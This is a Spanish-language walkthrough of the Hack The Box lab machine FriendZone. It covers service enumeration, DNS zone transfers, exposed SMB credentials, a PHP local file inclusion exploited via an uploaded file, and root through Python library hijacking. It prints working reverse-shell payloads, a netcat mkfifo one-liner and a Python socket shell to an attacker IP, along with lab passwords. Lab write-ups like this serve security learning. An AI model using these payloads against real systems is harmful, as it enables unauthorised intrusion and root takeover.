Hack The Box - FriendZone

Contenido
| Nombre | FriendZone |
|---|---|
| OS | Linux |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.123 |
| Maker | askar |
NMAP
Escaneo de puertos con nmap.
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-10 14:12 PST
Nmap scan report for 10.10.10.123
Host is up (0.20s latency).
Not shown: 993 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp open domain ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open ssl/http Apache httpd 2.4.29
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.20 seconds
FTP
Haciendo un login como usuario anonimo no encontramos nada en este puerto.
ENUM HTTP
gobuster -u 10.10.10.123 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -np -x php,txt,html -t 15 -q
/index.html (Status: 200)
/wordpress (Status: 301)
/robots.txt (Status: 200)
Ninguno de los directorios y archivos encontrados en el puerto 80 (HTTP) son de ayuda, pero en el index de la pagina aparece un dominio que podriamos utilizar.

friendzoneportal.red. Agregamos el dominio al archivo host (/etc/hosts) y encontramos que la pagina tiene contenido en el protocolo https, procedemos a enumerar los directorios y archivos.
ENUM HTTPS
gobuster -u https://friendzoneportal.red/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -np -k -x php,txt,html -t 35 -q
/index.html (Status: 200)

ENUM Samba
Utilizando la herramienta smbclient para enumerar los sharenames que estan en el servicio de samba.
smbclient -L 10.10.10.123
Enter WORKGROUP\root's password:
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
Files Disk FriendZone Samba Server Files /etc/Files
general Disk FriendZone Samba Server Files
Development Disk FriendZone Samba Server Files
IPC$ IPC IPC Service (FriendZone server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
Server Comment
--------- -------
Workgroup Master
--------- -------
WORKGROUP FROLIC
En uno de los sharenames podemos ver que Files tiene un comentario que nos dice se encuentra en la carpeta local /etc/files. al logearnos a general encontramos unas credenciales y una frase creds for the admin THING que podria hacer referencia a algun panel de administracion, en este sharename no tenemos permisos suficientes para subir o escribir archivos.
smbclient \\\\10.10.10.123\\general
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Wed Jan 16 12:10:51 2019
.. D 0 Wed Jan 23 13:51:02 2019
creds.txt N 57 Tue Oct 9 16:52:42 2018
creds.txt
creds for the admin THING:
admin:WORKWORKHhallelujah@#
Utilizando las credenciales que encontramos anteriormente, en Development no encontramos nada pero si podemos escribir o subir archivos, mas no ejecutarlos.
smbclient \\\\10.10.10.123\\Development --user=admin WORKWORKHhallelujah@#
smb: \> ls
. D 0 Sun Feb 10 19:12:08 2019
.. D 0 Wed Jan 23 13:51:02 2019
php-reverse-shell.php N 5493 Sat Feb 9 18:47:48 2019
ENUM SubDOMINIOS
Utilizando la ip y el dominio anteriormente utilizado en https, encontramos varios subdominios:
dig axfr friendzoneportal.red @10.10.10.123
friendzoneportal.red. 604800 IN SOA localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red. 604800 IN AAAA ::1
friendzoneportal.red. 604800 IN NS localhost.
friendzoneportal.red. 604800 IN A 127.0.0.1
admin.friendzoneportal.red. 604800 IN A 127.0.0.1
files.friendzoneportal.red. 604800 IN A 127.0.0.1
imports.friendzoneportal.red. 604800 IN A 127.0.0.1
vpn.friendzoneportal.red. 604800 IN A 127.0.0.1
friendzoneportal.red. 604800 IN SOA localhost. root.localhost. 2 604800 86400 2419200 604800
Ver Nmap scan –> friendzone.red (CommonName)
dig friendzone.red axfr @10.10.10.123
friendzone.red. 604800 IN SOA localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red. 604800 IN AAAA ::1
friendzone.red. 604800 IN NS localhost.
friendzone.red. 604800 IN A 127.0.0.1
administrator1.friendzone.red. 604800 IN A 127.0.0.1
hr.friendzone.red. 604800 IN A 127.0.0.1
uploads.friendzone.red. 604800 IN A 127.0.0.1
friendzone.red. 604800 IN SOA localhost. root.localhost. 2 604800 86400 2419200 604800
Agregamos los subdominios a /etc/hosts.
admin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
ENUMERANDO DIRECTORIOS HTTPS -> friendzone.red
https://friendzone.red/
/js/js/ 
https://uploads.friendzone.red

/files
/files/note
/upload.php
https://hr.friendzone.red
EMPTY
https://administrator1.friendzone.red
/dashboard.php
/login.php
/timestamp.php
https://administrator1.friendzone.red/
En el primer subdominio econtramos un login y utilizando las credenciales nos muestra un mensaje, donde nos indica que para mostrar la imagen del script debemos de insertar lo siguiente: ?image_id=a.jpg&pagename=timestamp

Al realizar dicho request a la pagina obtenemos la imagen y lo que parece el tiempo en que se ejecuto el programa.

Si nos concentramos en la solicitud de la pagina podemos ver que existe un parametro que llama(include $_GET[‘pagina’];) a una pagina pagename=timestamp, anteriormente enumeramos los directorios y archivos de la pagina. Al intentar con el archivo login.php en lugar de timestamp nos muestra el siguiente mensaje.

Podemos observar que la pagina es vulnerable a ataques de LFI, cuando se hace la solicitud del archivo (timestamp,login) este lo ejecuta y lo muestra por debajo como en la figura anterior. Para poder saltarnos la ejecutcion podemos utilizar un filtro de php en este caso php://filter/convert.base64-encode/resource=archivophp y asi obtener el codigo fuente de los archivos locales en base64 para luego decodificarlo.
pagename=php://filter/convert.base64-encode/resource=dashboard
<?php
//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];
if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
echo "<br><br><br>";
echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
if(!isset($_GET["image_id"])){
echo "<br><br>";
echo "<center><p>image_name param is missed !</p></center>";
echo "<center><p>please enter it to show the image</p></center>";
echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
}else{
$image = $_GET["image_id"];
echo "<center><img src='images/$image'></center>";
echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
include($_GET["pagename"].".php");
//echo $_GET["pagename"];
}
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
pagename=php://filter/convert.base64-encode/resource=timestamp
<?php
$time_final = time() + 3600;
echo "Final Access timestamp is $time_final";
?>
pagename=php://filter/convert.base64-encode/resource=../www/admin/login
<?php
$username = $_POST["username"];
$password = $_POST["password"];
//echo $username === "admin";
//echo strcmp($username,"admin");
if ($username==="admin" and $password==="WORKWORKHhallelujah@#"){
setcookie("FriendZoneAuth", "e7749d0f4b4da5d03e6e9196fd1d18f1", time() + (86400 * 30)); // 86400 = 1 day
echo "Login Done ! visit /dashboard.php";
}else{
echo "Wrong !";
}
?>
OBTENIENDO ACCESO
Anteriormente pudimos obtener el codigo fuente de las paginas locales y accesso a dos de los sharenames disponibles en el servicio de samba, pero en uno de ellos nos indica que la carpeta local del sharename Files es en /etc/Files por lo que concluimos que Development y general estan en la carpeta /etc/Development y /etc/general, de los cuales solo tenemos acceso a Development, procedemos a subir un archivo en samba con el sharename Development y hacer una solicitud a la carpeta /etc/Development/NuestroArchivo.
*batman.php*
echo '<?php echo "</center><h1>Yo soy Batman</h1></center>";?>' > batman.php
Smbclient
smbclient \\\\10.10.10.123\\Development --user=admin WORKWORKHhallelujah@#
Try "help" to get a list of possible commands.
smb: \> put batman.php
putting file batman.php as \batman.php (0.0 kb/s) (average 0.0 kb/s)

Solicitud:
https://administrator1.friendzone.red/dashboard.php?pagename=php://filter/resource=/etc/Development/batman

Como podemos ver nuestro archivo con un simple texto se ejecuta, de la misma forma podemos ejecutar comandos mediante php y asi obtener una shell inversa.
echo '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.78 7878 >/tmp/f");?>' > batman_sh.php
put batman_sh.php

nc -lvp 7878

USER Flag
Para el user flag solo falto un poco de enumeracion en los archivos locales y en la configuracion de la base de datos mysql del servidor encontramos un usuario y contraseña de un usuario. 
ssh friend@10.10.10.123
Password: Agpyu12!0.213$
ROOT SHELL
Utilizando pspy para encontrar tareas que se ejecutan como usuario root logramos ver una que se encuentra dentro de la carpeta /opt, es un script escrito en python llamado reporter.py, el cual tiene permisos root, dentro del script podemos ver que importa la libreria os e imprime algunos mensajes.

/opt/server_admin/reporter.py
#!/usr/bin/python
import os
to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"
print "[+] Trying to send email to %s"%to_address
#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''
#os.system(command)
# I need to edit the script later
# Sam ~ python developer
Utilizando la tecnica de Python Library Hijacking podemos obtener una shell inversa editando la libreria os.py que se encuentra en /usr/lib/python2.7/os.py podemos utilizar el siguiente codigo.
rastating - Python Library Hijacking
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.126",7878));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
import os
import pty
import socket
lhost = "10.10.15.126"
lport = 7878
ZIP_DEFLATED = 0
class ZipFile:
def close(*args):
return
def write(*args):
return
def __init__(self, *args):
return
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()

Como podemos ver en el script se ejecuta cada medio minuto por lo cual obtendremos una shell inversa como usuario root.
